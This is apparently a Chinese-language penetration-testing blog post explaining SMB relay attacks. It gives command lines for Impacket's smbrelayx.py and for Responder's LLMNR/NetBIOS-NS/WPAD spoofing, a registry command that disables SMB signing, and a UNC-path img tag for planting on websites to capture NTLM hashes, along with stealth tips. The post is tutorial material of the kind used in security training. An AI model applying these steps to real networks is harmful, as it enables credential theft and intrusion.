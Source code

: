 ```yaml
---
title: "SMB 重放攻击"
date: 2019-07-17T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['smb']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



SMB 重放攻击原理以及利用方式

<!--more-->

## 原理

![smb relay attack](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/2019/smb_relay_attack.jpg)

可以看出, SMB 重放攻击的实质是 Client 本应该向 Attacker 请求的数据包被 Attacker 拿来以请求 Target.

##  重放

在早期的 SMB 重放攻击中, 允许将 Client 请求的数据包重放至 Client 本身, 这就造成了 `MS08-068` 漏洞, 但漏洞在 2008 R2 中已经被修复.

微软在 Server 系列的系统中默认开启 SMB 签名以防止重放攻击, 而个人系统诸如 Windows 7, Windows 10 则默认关闭签名.

同时, Windows 在发送 SMB 请求时, 如未手动指定凭据, 将会以当前用户的身份发送 SMB 认证请求.

### Impacket

利用 Impacket 包中的 `smbrelayx.py` 和 `ntlmrelayx.py` 可实现 SMB 重放攻击.

注意后者与前者在 SMB 重放中并无本质区别, 后者支持 SMB v2 协议, 不过在实际测试中两者均可在 2008 R2 系统上利用成功, 这里以 `smbrelayx.py` 为例.

`-h` 参数指定重放主机的 IP 地址, 留空则为重放至 Client 本身.

`-e` 参数指定重放成功后要执行的程序, `-c` 参数指定重放成功后要执行的命令, 留空则默认为导出 Hash.

对 2003 的利用方式, 即 `MS08-068`

```
./smbrelayx.py
```

该命令将在 Attacker 上启动 HTTP (用于 WPAD) 和 SMB 服务, 开放 80, 445 端口, 并将 SMB 数据包重放至来源主机.

此时在 2003 中向 Attacker 发送 SMB 请求, 如 `dir \\ATTACKER\c$`, 将会自动导出 NTLM Hash (非 Net-NTLM Hash).

如果要重放至 2008 R2 主机上, 则需要指定 `-h` 参数为其 IP 地址并禁用 SMB 签名.

```
reg add HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters /v RequireSecuritySignature /t REG_DWORD /d 0 /f
```

```
./smbrelayx.py -h 192.168.1.100
```

此时在任意系统上对 Attacker 发送 SMB 请求, 如果凭据正确, 将会自动导出 2008 R2 的 NTLM Hash.

## 欺骗

那么就有一个问题, 如何让 Client 的流量经过 Attacker 呢?

1. 可以通过在 Client 经常访问的 Web 网站上插入 UNC 路径, 例如 `<img src="\\192.168.1.2\logo.jpg" />` 以进行 SMB 请求 (当前用户凭据).

2. 进行 NetBIOS-NS/LLMNR/WPAD 欺骗.

其中 NetBIOS-NS 和 LLMNR 对局域网内的主机名所对应的 IP 地址进行广播查询.

WPAD 则让浏览器能够自动发现代理服务器 (在 Internet 选项中勾选 "自动检测设置") 并下载配置文件 (PAC).

局域网内对主机名所对应的 IP 地址进行查询时, 会依照 `Hosts - DNS/Cache - LLMNR/NetBIOS-NS` 的顺序依次查询.

例如查询主机名 TEST 时, 主机首先会从 Hosts 文件里查找有没有其对应的 IP 地址, 然后从本地 DNS  缓存和 DNS 服务器上进行请求, 如仍未查询到, 则在局域网内发起 LLMNR/NetBIOS-NS 广播请求, 这时候如果存在 TEST 主机, 它就会回应该请求并给出 IP 地址.

而如果 TEST 主机不存在, 将会在一段时间内持续发送广播, 如果 Attacker 回应广播请求, 那么查询主机就会认为 Attacker 就是 TEST, 并连接至 Attacker 的 IP 地址.

注意如果 Attacker 赶在 TEST 主机的前面回应请求的话, 查询主机也会认为 Attacker 就是 TEST, 但自己在实际测试中, 效果并不理想.

默认 WPAD 服务器的主机名为 WPAD, 也能通过以上协议进行主机名欺骗.

### Responder

利用 Responder 来进行 LLMNR/NetBIOS-NS 以及 WPAD 欺骗.

```
responder -I eth0 -rwdv
```

`-r` `-d` 参数将会使 Attacker 回应更多的 NetBIOS-NS 请求包, 但可能会影响正常访问.

`-w` 参数使 Responder 开启 WPAD 代理服务器, 在不影响 HTTP 正常访问的情况下监听用户所浏览的 URL 及 Cookies 等信息, 也能获取到 Net-NTLM Hash.

另外还有 `-A` 参数指定 Responder 仅仅监听请求, 而不进行欺骗, 这对于管理员使用习惯的分析是一个很不错的方式.

至此在 Client 中对不存在的主机名发送请求, Responder 将会回应请求并获取到 Client 发送的 Net-NTLM Hash. 同时也会使 Client 启用 Responder 的 WPAD 代理服务器并对浏览内容进行持续监听.

注意在上文中也说过, 对局域网中已存在的主机名进行欺骗也能进行, 不过效果并不理想, 实际测试中仅在 Windows Server 2003 上测试成功 (欺骗 2003 机器的主机名).

### Responder + Impacket

Impacket 中的 `smbrelayx.py` 和 `ntlmrelayx.py` 不带有欺骗功能, 故需要与 Responder 配合使用以达到让流量经过 Attacker 的目的.

在 `Responder.conf` 中关闭 SMB 和 HTTP HTTPS 以及其它不需要的服务. 之后启动 Responder.

```
responder -I eth0 -rdv
```

启动 `smbrelayx.py`

```
./smbrelayx.py -h 192.168.1.100
```

这时在 Client 中对不存在的主机名发送 SMB 请求, Responder 会回应请求并指定 Attacker 的 IP 地址, 之后 Client 发送的 SMB 数据包会通过 `smbrelayx.py` 重放到指定的 IP 地址, 认证成功后导出 Target 的 Hash.

如果指定 `-w` 参数, Responder 将对 WPAD 进行主机名欺骗, 并让 Client 浏览器的代理配置地址设置为 Attacker 主机的 80 端口. 当 Client 首次浏览网页时, 会弹出基于 NTLM 协议的登录窗口, 用户输入账户凭据后便可继续浏览网页. 同时 `smbrelayx.py` 将接受账户凭据并重放 SMB 数据包至 Target, 认证成功后导出 Target 的 NTLM Hash.

## 总结

几种利用方式.

```
Client <---> Attacker (MS08-068) Impacket
Client ---> Attacker <---> Target (SMB Relay Attack) Impacket
Client <---> Attacker (LLMNR/NetBIOS-NS/WPAD Attack) Responder
Client ---> Attacker  <---> Target (LLMNR/NetBIOS-NS/WPAD) Responder + Impacket
```

一句话概括, 想要 SMB 重放, 就必须得用 Impacket, 想要流量经过自己, 就必须得用 Responder (或是 Web 服务器 + UNC 路径). 如果你是第一次在实战中利用这个漏洞, 建议先单独开 Responder 收集 Net-NTLM Hash 和浏览信息, 或者仅仅使用 `-A` 参数, 先摸清管理员的日常使用习惯, 再根据实际情况决定是否使用 Impacket.

`smbrelayx.py` 在 2008 R2 系统中的利用, 除非指定登录凭据, 否则就会拿当前用户的凭据进行登录, 这就需要 Client 和 Target 的用户凭据完全相同, 工作组中可能很少遇到, 但在域内环境中这和域控和域内计算机的关系非常类似, 域管理员在一般情况下可以直接登录域内的计算机. 利用这一点加上 UNC 路径可以更好的隐蔽, 同时又达到了欺骗的效果.

Responder 对已有主机名的欺骗效果不太理想, 事实上 Metasploit 中 Spoof 的一系列模块也是这样, 不过仔细想想, 这样也可以使得内网中的资源可以被正常访问, 也就提高了隐蔽性. 这里有一个利用场景: 内网中架设了防火墙, 如果计算机试图访问被防火墙拦截了的网址呢?

另外 Responder 中提供了自定义 PAC 的选项, 可以通过在某些网页弹出登录框的方式达到欺骗的效果 (例如管理员网站后台).

文章虽然有点长, 但大部分篇幅都在讲述如何进行 "欺骗" 而不是 "重放", 如果单纯去理解 SMB 重放攻击的话, 那就是一句话: 将别人的 SMB 数据包请求拿过来给自己用. 重放攻击和 SMB 签名息息相关, 理解了签名就会对重放攻击有一个比较清晰的认识了.